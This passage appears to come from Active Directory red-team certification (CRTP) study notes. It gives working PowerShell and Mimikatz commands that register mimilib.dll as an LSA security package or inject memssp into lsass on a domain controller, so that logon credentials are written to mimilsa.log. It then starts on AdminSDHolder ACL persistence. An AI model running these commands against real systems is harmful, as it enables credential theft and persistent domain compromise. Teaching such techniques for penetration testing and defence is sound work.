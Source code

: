 **We can use either of the ways**:
```powershell
# Drop the mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages:

$packages = Get-ItemProperty
HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

**Using mimikatz, inject into lsass (Not super stable with Server 2019 and Server 2022 but still usable)**:
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

**All local logons on the DC are logged to**:
```powershell
C:\Windows\system32\mimilsa.log
```

## Persistence using ACLs - AdminSDHolder

- Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called **Protected Groups**).
- **Security Descriptor Propagator** (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of **AdminSDHolder** and any differences are overwritten on the object ACL.

![Alt text](/assets/images/posts/crtp/13.png){: .align-center}
